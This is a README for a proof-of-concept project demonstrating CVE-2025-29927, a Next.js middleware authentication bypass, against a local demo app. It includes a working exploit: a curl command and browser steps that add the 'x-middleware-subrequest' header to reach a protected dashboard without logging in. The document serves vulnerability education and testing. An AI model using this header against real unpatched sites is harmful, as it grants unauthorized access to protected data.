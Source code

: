 # Next.js Middleware Vulnerability POC

This project is a Proof of Concept (POC) for the article [**Critical Next.js Vulnerability: How a Simple Header Bypasses Authentication (CVE-2025-29927) 🕵️**](http://localhost:3000/blog/critical-nextjs-middleware-vulnerability-cve-2025-29927-authentication-bypass). It demonstrates how the [CVE-2025-29927](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw) vulnerability can be exploited to bypass middleware authentication and authorization checks in a Next.js application.

## Description

The vulnerability allows attackers to bypass Next.js middleware by adding a specific header (`x-middleware-subrequest`) to their requests. This can lead to unauthorized access to protected routes, CSP bypasses, and even DoS attacks via cache poisoning.

## How to Run

1. **Clone the Repository**

```bash
git clone https://github.com/neoxs/nextjs-middleware-vuln-poc.git
cd nextjs-middleware-vuln-poc
```

2. **Install Dependencies**

```bash
npm install
```

3. **Run the Application**

```bash
npm run dev
```

4. **Exploit the Vulnerability**

Open your browser and navigate to `http://localhost:3000/dashboard`. You should be redirected to the login page.

You can exploit this vulnerability using one of these methods:

**Using curl:**

```bash
curl -X GET http://localhost:3000/dashboard \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```

**Using a browser with modHeader extension (recommended):**

1. Install the [modHeader extension](https://modheader.com/) for your browser
2. Add a new header with name `x-middleware-subrequest` and value `middleware:middleware:middleware:middleware:middleware`
3. Navigate to `http://localhost:3000/dashboard` in your browser

You should now have direct access to the dashboard area without authentication.

## Important Note

This POC is for educational purposes only. The vulnerability has been patched in the latest versions of Next.js. Always ensure your applications are up-to-date and follow best security practices.

## License

This project is licensed under the MIT License. See the **LICENSE** file for details.
